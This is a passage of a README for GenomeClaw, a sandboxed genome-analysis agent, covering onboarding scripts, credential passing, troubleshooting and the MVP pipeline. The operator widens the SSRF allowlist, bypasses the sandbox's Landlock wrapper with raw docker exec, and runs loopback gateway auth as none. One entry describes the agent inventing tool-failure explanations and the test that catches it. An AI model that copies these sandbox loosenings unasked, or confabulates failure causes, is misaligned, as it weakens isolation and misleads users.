4. **Registers the GenomeClaw policy preset** (`nemoclaw genomeclaw policy-add --from-file packages/nemoclaw-plugin/policy-preset.yaml`) — opens `host.openshell.internal:8645` for the plugin's host-service calls + lists RFC 1918 ranges in `allowed_ips:` (otherwise OpenShell's SSRF guard rejects with `internal address` even though the host:port is allowlisted).
5. **Writes the agent's `auth-profiles.json`** with the OpenAI credential — workaround for `nemoclaw inference set` failing to docker-exec into a non-existent container on local Docker installs. The JSON payload (including the key) is rendered on Python's stdout and piped via `docker exec -i ... bash -c 'cat > .../auth-profiles.json'` — it **never lands in argv, never appears in `ps`, never echoes in tracebacks**. (Pre-2026-05-24 the script used a base64-blob-in-`python3 -c` pattern that DID leak via traceback when an unrelated `FileNotFoundError` printed the `-c` source string into a log. The current stdin-based pattern is enforced by `INV-P003` — see [docs/reference/INVARIANTS.md](docs/reference/INVARIANTS.md).)
6. **Points the agent's `openai` provider at `https://inference.local/v1`** — the L7 proxy in the sandbox blocks `api.openai.com:443`; only `inference.local` is on the base policy allowlist, and the host-side openshell-gateway forwards it to OpenAI with the user's key.
7. **(Re)starts the openclaw gateway** with `OPENAI_API_KEY` supplied via `docker exec -e` (env, not argv). The sandbox Dockerfile bakes `models.providers.openai.apiKey` as a `--ref-source env --ref-id OPENAI_API_KEY` reference; the gateway resolves the key from its process env at startup. The literal key never lands in any image layer or any committed config file.
8. **Smoke-tests** the agent with a one-shot natural-language probe (calls `genomeclaw_status` → `/v1/health` on the host service; informative even if the host service isn't running yet — the agent's reply will explain).

(Steps 1–3 — pre-build plugin TypeScript, build the toolkit image, `nemoclaw onboard --from <shim>` — are unchanged. `hostService.baseUrl` and `hostService.timeoutMs` and `gateway.mode=local` and `plugins.allow=['genomeclaw']` are now baked into the sandbox image at build time; the previous separate `openclaw config set ...` post-install steps for those are baked at build time instead. See [docs/plans/active/onboard-persistent-agent-fix/](docs/plans/active/onboard-persistent-agent-fix/) for the original diagnosis; the plugin now lives at `/sandbox/build/genomeclaw` inside the Landlock RW baseline (`INV-D011`), so the prior `/opt/genomeclaw` EACCES no longer applies.)

After this completes, `nemoclaw list` shows `genomeclaw` next to any other sandboxes you've onboarded (e.g., `devrelclaw`).

The script is a direct counterpart of [DevRelClaw's `scripts/onboard-sandbox.sh`](https://github.com/OpenRavenClaw/DevRelClaw/blob/main/scripts/onboard-sandbox.sh) — both projects use the same onboarding pattern + the same workarounds (auth-profiles injection, inference.local routing) because they hit the same upstream NemoClaw quirks.

#### 2b. Day-to-day: bring the sandbox to a usable state

After the first onboard, use the lightweight wrapper for the common cases where the sandbox is running but the gateway died (e.g. after a reboot, or `OPENAI_API_KEY` aged out of the gateway's env):

```bash
./scripts/sandbox-up.sh             # smart: starts gateway with .env if container is otherwise OK
./scripts/sandbox-up.sh --rebuild   # full image rebuild via onboard-sandbox.sh (use after prompt/plugin edits)
```

What it does:

1. Sources `.env` and exports `OPEN_AI_API_KEY` as `OPENAI_API_KEY`.
2. Locates the running `openshell-genomeclaw-*` container; if none, delegates to `scripts/onboard-sandbox.sh` (full reset).
3. Checks the plugin entrypoint is readable at the canonical path `/sandbox/build/genomeclaw/dist/index.js` (inside the OpenShell Landlock RW baseline — `INV-D011`); if missing (stale image), delegates to `onboard-sandbox.sh`. (Pre-2026-05-29 the plugin lived at `/opt/genomeclaw`, OUTSIDE the baseline, and EACCES'd on every NemoClaw-managed surface — the canonical-path migration fixed that.)
4. Checks the gateway is bound on `:18789` (port-based, not process-name); if not, tries `nemoclaw … connect --probe-only` then restarts it with `OPENAI_API_KEY` supplied via `docker exec -e` (env, not argv — per `INV-P003`). The baked gateway config binds loopback with `auth=none`, so loopback clients connect token-free.
5. Reports the working `docker exec` agent-CLI snippet for the now-healthy container.

Use `--rebuild` whenever you edit the agent system prompt at [packages/nemoclaw-plugin/sandbox/agent-system-prompt.md](packages/nemoclaw-plugin/sandbox/agent-system-prompt.md) or the plugin source under [packages/nemoclaw-plugin/src/](packages/nemoclaw-plugin/src/) — those land in the image at build time, so a running container won't pick them up until the image is rebuilt + the container recreated.

#### 3. Run the host service (in another shell)

The agent's tools all route through the host-side `genomeclaw host service` over `host.openshell.internal:8645`. Before asking questions, start it:

```bash
bin/genomeclaw host service
# binds 127.0.0.1:8645 on the host + 0.0.0.0:8645 inside the toolkit container
# reads /Volumes/Genome_Work/genomeclaw/derived/CURRENT for the active run
```

The service is read-only. Send `SIGHUP` to re-resolve CURRENT after a fresh `pipeline ingest`. It exits cleanly on `Ctrl-C`.

#### 4. Talk to the agent

Three surfaces:

**One-shot CLI message** (programmatic, scripts, CI):
```bash
CID=$(docker ps --filter 'name=openshell-genomeclaw-' --format '{{.Names}}' | head -1)
docker exec -i \
  -e HOME=/sandbox \
  -e OPENAI_API_KEY="$OPENAI_API_KEY" \
  --user sandbox "$CID" \
  bash -c 'openclaw agent --local --json --agent genomeclaw \
             --message "Do I have any risk factors for loss of eyesight?"'
```

We use `docker exec` here instead of the documented `nemoclaw genomeclaw exec --no-tty -- bash -c '...'` because the latter is broken in current nemoclaw: (a) the gRPC layer rejects multi-line `bash -c` args with `"command argument 2 contains newline or carriage return characters"`, and (b) even single-line invocations fail because the agent client inside the openshell-exec wrapper can't reach the in-container gateway over WebSocket. The `docker exec --user sandbox -e HOME=/sandbox` path bypasses the wrapper entirely and is the same path `scripts/onboard-sandbox.sh` uses for all its post-onboard work. See [onboard-persistent-agent-fix work-notes](docs/plans/active/onboard-persistent-agent-fix/work-notes.md) for the diagnosis.

**Interactive TUI** (inside the sandbox):
```bash
nemoclaw genomeclaw connect
# then inside the sandbox:
openclaw tui
```

**Dashboard** (browser UI):
```bash
nemoclaw genomeclaw dashboard-url
```

#### Where state lives

Three persistence layers, each with a different lifecycle.

**Host — derived runs** (under `$GENOMECLAW_DERIVED_DIR`, default `/Volumes/Genome_Work/genomeclaw/derived/`):
- Each `pipeline ingest` produces a new `<timestamp>-<hash>/` directory with `variants.duckdb` (variants + coverage_qc + pgs_scores), `pgs_compute_tasks.sqlite` (PRS task queue), `manifest.json`, `provenance.json`.
- The `CURRENT` symlink points at the active run. The agent automatically queries whatever it resolves to.
- Operator decides when to create new runs; agent never creates them. See `docs/reports/genomeclaw-devrelclaw-coexistence-2026-05-24.md` (or the "Do I have any risk factors for loss of eyesight?" session notes) for the run-lifecycle model.

**Sandbox — agent workspace** (`/sandbox/.openclaw/workspace/` inside the `openshell-genomeclaw-…` container, persisted across `nemoclaw rebuild`):
- `IDENTITY.md`, `USER.md`, `SOUL.md` — baked at image build, then persisted.
- `MEMORY.md` + dated memory notes the agent writes during sessions (per the agent-system-prompt's research-and-synthesis protocol).
- Survives `nemoclaw genomeclaw rebuild`; wiped on `nemoclaw genomeclaw destroy` (with `--cleanup-gateway` to also remove gateway state).

**Sandbox — openclaw config** (`/sandbox/.openclaw/agents/genomeclaw/agent/`):
- `auth-profiles.json` (OpenAI credential — written by `scripts/onboard-sandbox.sh` step 5 via `docker exec -i` stdin, never via argv per `INV-P003`).
- `models.json` (provider catalog + `inference.local` baseUrl override — step 6).
- These get rewritten on `nemoclaw rebuild`; re-run the onboard script after rebuild to re-apply.

#### Troubleshooting

**`nemoclaw list` shows DevRelClaw but not GenomeClaw**
You haven't run `./scripts/onboard-sandbox.sh` yet. The live-smoke harness path (`packages/toolkit/tests/_live_smoke/`) spawns ephemeral `docker run --rm` sandboxes — those don't register with NemoClaw.

**`openclaw plugins install` fails with "dangerous code patterns detected: Environment variable access combined with network send"**
You added `process.env[...]` to a plugin source file that also calls `fetch()`. OpenClaw's plugin loader's static-analysis heuristic flags this as possible credential harvesting. Fix: use openclaw's config channel (`plugins.entries.genomeclaw.config.*`) for runtime config, or a filesystem marker for enable gates. See the "Why the plugin reads config via the openclaw channel, not env vars" subsection above.

**`bin/genomeclaw host service` fails with `port 8645 already in use`**
Something else is on 8645 (maybe a stale uvicorn from a prior session, or you've changed `GENOMECLAW_HOST_SERVICE_PORT` to 8643 and DevRelClaw is on it). `lsof -nP -iTCP:8645 -sTCP:LISTEN` shows the holder; either kill it or pick a different port (see "Coexisting with other Claw projects on one host" section above).

**Agent reply says `no_active_run`**
Two distinct failure modes share this symptom:
1. The host service is up but `derived/CURRENT` is missing or points at a non-existent run. Run `bin/genomeclaw pipeline ingest …` first, or check `readlink /Volumes/Genome_Work/genomeclaw/derived/CURRENT` and fix the symlink.
2. The docker-wrapped `bin/genomeclaw host service` cannot see your derived directory because colima's `mounts:` list doesn't cover it (`mounts: []` is a common cause — Sequoia + a fresh colima won't share `/Volumes/...` until you add it). Run `bin/genomeclaw host doctor` — the `colima_mounts_cover_derived` finding will tell you whether this is your case. Two fixes: re-run `bin/genomeclaw host setup` to add the mount, OR run the host service natively via `GENOMECLAW_NATIVE=1 bin/genomeclaw host service` (the native uvicorn process can read the host filesystem directly, no colima mount needed).

**Colima virtio-fs stale cache during sandbox image build** (macOS)
Symptom: `docker run -v <path>/<file>:<container-path>:ro` fails with "Are you trying to mount a directory onto a file (or vice-versa)?" even though the file exists on the host. Fix: mount the parent directory instead of the individual file (colima resolves dir-level inodes cleanly but stale-caches single files), OR `colima restart` to refresh the virtio-fs view.

**`nemoclaw genomeclaw rebuild` resets the openclaw config**
By design — rebuild = fresh container. Re-run `./scripts/onboard-sandbox.sh` to re-apply auth-profiles + provider routing + policy preset. The script is idempotent.

**Gateway start blocked: existing config is missing `gateway.mode`**
This means you're running an old sandbox image built before the onboard-persistent-agent-fix Phase 1 bakes landed. Rebuild the image: `docker build --build-arg GENOMECLAW_HOST_PORT=8645 -t genomeclaw/sandbox:port-8645 -f packages/nemoclaw-plugin/sandbox/Dockerfile packages/nemoclaw-plugin/`. The current Dockerfile bakes `gateway.mode=local` so a freshly-built image starts the gateway cleanly on first run.

**`openclaw config set ...` fails with `EACCES: permission denied, mkdir '/root/.openclaw'`**
The sandbox user (uid 998) cannot write `/root`. Means `HOME=/sandbox` is not set in the process env. The current sandbox Dockerfile bakes `ENV HOME=/sandbox`; if you're running an older image, rebuild. If you're invoking `openclaw config` via `docker exec`, always pass `-e HOME=/sandbox` explicitly.

**`EACCES: permission denied, scandir '/opt/genomeclaw'` (historical — resolved by the canonical-path migration)**
This was the pre-2026-05-29 failure: the plugin lived at `/opt/genomeclaw`, OUTSIDE the OpenShell Landlock RW baseline, so any process started via openshell's filesystem-restriction wrapper (`nemoclaw genomeclaw exec`, dashboard, connect, TUI) EACCES'd reading the plugin dir — only raw `docker exec` worked. The [nemoclaw-canonical-integration](docs/plans/active/nemoclaw-canonical-integration/) plan moved the plugin to `/sandbox/build/genomeclaw` (inside the baseline; `INV-D011`), so this no longer occurs. If you see it, you're on a stale pre-migration image — rebuild via `./scripts/sandbox-up.sh --rebuild`. The scripted agent path remains `docker exec --user sandbox -e HOME=/sandbox <CID>` (see [CLAUDE.md § Running the Agent Locally](CLAUDE.md) / `scripts/ask.sh`).

**Gateway dies with `SecretRefResolutionError: Environment variable "OPENAI_API_KEY" is missing or empty`**
The gateway resolves the OpenAI key from its own process env at startup. If it dies (sandbox rebuild, reboot, manual kill) and gets re-launched without `-e OPENAI_API_KEY=...` it can't resolve the secret. **Recovery in one command**: `./scripts/sandbox-up.sh` — sources `.env`, restarts the gateway with the key in env, ready in ~10 s. If the underlying image is also stale (you've edited the prompt or plugin since the last build), use `./scripts/sandbox-up.sh --rebuild`.

**Agent reply uses a tool-failure phrase the trace doesn't actually carry** (e.g. "object-shape serialization error", "argument-shape guard fired" when all calls were network failures)
This is the §INV-A005 confabulation pattern. The agent reaches for the most-rehearsed failure framing instead of the one in this turn's tool-result text. See the prompt's [§INV-A005 catalogue](packages/nemoclaw-plugin/sandbox/agent-system-prompt.md) (the catalogue + decompose-per-tool rule). Trace-walker enforcement at [packages/toolkit/tests/invariants/test_invA005_no_serialization_bug_confabulation.py](packages/toolkit/tests/invariants/test_invA005_no_serialization_bug_confabulation.py). The catalogue's coverage of paraphrases isn't exhaustive — if you see a new variant the agent invented, extend `_FORBIDDEN_PHRASES` and the prompt catalogue together (per the discipline in [docs/plans/completed/agent-stale-memory-and-failure-mode-confabulation/](docs/plans/completed/agent-stale-memory-and-failure-mode-confabulation/)).

---

### Intended onboarding once the MVP lands (sketched from [Story 1](docs/reference/user-stories.md))

```bash
# 0. Build the toolkit image once (or pull a tagged release).
docker build --tag genomeclaw/toolkit:dev packages/toolkit

# 1. Fetch reference data (host-side, deliberate, opt-in)
bin/genomeclaw refs fetch --source clinvar
bin/genomeclaw refs fetch --source gnomad
bin/genomeclaw refs fetch --source dbsnp

# 2. Ingest your genome (VCF + BAM/CRAM both required for coverage_qc + Cyrius).
#    Paths below resolve INSIDE the container; the shim's bind-mounts map
#    /mnt/genomeclaw/{raw,reference,derived} to your host paths.
bin/genomeclaw pipeline ingest \
  --sample-id <your-sample-id> \
  --reference /mnt/genomeclaw/reference/grch38/ \
  --vcf       /mnt/genomeclaw/raw/<sample-id>/sample.vcf.gz \
  --bam       /mnt/genomeclaw/raw/<sample-id>/sample.bam
# Pipeline: integrity → bcftools stats → mosdepth → normalize →
#   VEP+LOFTEE+AlphaMissense+vcfanno → materialize (with gnomAD-constraint
#   join for gene_loeuf).

# 3. Call CYP2D6 with Cyrius (BAM/CRAM input; outputs cyp2d6_diplotype.json)
bin/genomeclaw pipeline cyp2d6-call \
  --bam /mnt/genomeclaw/raw/<sample-id>/sample.cram \
  --sample-id <your-sample-id> \
  --reference-fasta /mnt/genomeclaw/reference/grch38/grch38.fa.gz \
  --run-dir /mnt/genomeclaw/derived/<run-id>

# 4. Run PharmCAT for PGx findings (consumes Cyrius's outside-call)
bin/genomeclaw pipeline pharmcat \
  --vcf /mnt/genomeclaw/raw/<sample-id>/sample.vcf.gz \
  --cyp2d6-diplotype-json /mnt/genomeclaw/derived/<run-id>/cyp2d6_diplotype.json \
  --reference-fasta /mnt/genomeclaw/reference/grch38/grch38.fa.gz \
  --run-dir /mnt/genomeclaw/derived/<run-id>

# 5. Compute one polygenic risk score (host-side, opt-in egress for PGS Catalog
#    weights). The agent picks the PGS Catalog ID; the rationale is persisted
#    on the `pgs_scores` row per INV-A003.
bin/genomeclaw pipeline pgs-compute \
  --pgs PGS000018 \
  --vcf /mnt/genomeclaw/raw/<sample-id>/sample.vcf.gz \
  --reference-root /mnt/genomeclaw/reference \
  --rationale "<agent's reasoning for picking this scorefile>" \
  --question "<the verbatim user question this answers>" \
  --work-dir /mnt/genomeclaw/scratch/pgs-work \
  --run-dir /mnt/genomeclaw/derived/<run-id>

# 6. Start the host service (reads the active run via the CURRENT symlink).
docker run -d --rm \
  --name genomeclaw-service \
  -p 127.0.0.1:8645:8645 \
  -v /mnt/genomeclaw/reference:/mnt/genomeclaw/reference:ro \
  -v /mnt/genomeclaw/derived:/mnt/genomeclaw/derived \
  genomeclaw/toolkit:dev genomeclaw-service start --port 8645

# 7. Onboard the sandbox plugin (one-time)
nemoclaw onboard --from packages/nemoclaw-plugin/sandbox/Dockerfile

# 8. Talk to the agent over Telegram. The agent calls the nine GenomeClaw
#    tools as needed: status / findings / variant / evidence / gene /
#    pgs_list / pgs_get / pgs_compute / pgs_compute_status.
```

The MVP pipeline above is **shipped + verified end-to-end on real data** as of 2026-05-22. Next opening is [Phase 7](docs/plans/active/mvp/phases/phase-7.md) — end-to-end MVP demo + invariant sweep + the Phase-5-deferred SSRF probe.

---

## Where to Read Next

- [CLAUDE.md](CLAUDE.md) — project rules and invariants in plain prose.
- [docs/reference/INVARIANTS.md](docs/reference/INVARIANTS.md) — canonical invariant IDs (`INV-D001`, `INV-E001`, `INV-P001`, `INV-R001`, `INV-C001`).
- [docs/reference/grand-plan.md](docs/reference/grand-plan.md) — long-term roadmap and capability themes.
- [docs/plans/CLAUDE.md](docs/plans/CLAUDE.md) — planning protocol (spec + phased + strict TDD).
- [docs/plans/templates/](docs/plans/templates/) — plan templates.
- [.claude/agents/](.claude/agents/) — specialized subagent guides.

---

## Contributing

1. Read [CLAUDE.md](CLAUDE.md), [INVARIANTS.md](docs/reference/INVARIANTS.md), and the [planning protocol](docs/plans/CLAUDE.md).
2. Pick or open a plan under `docs/plans/active/<feature>/`.
3. Follow strict TDD inside each phase.
4. Cite `INV-xxx` IDs in plans, tests, and pull requests.

---

## License

License pending. Until a license is committed at the project root, treat this repository as **all rights reserved**.
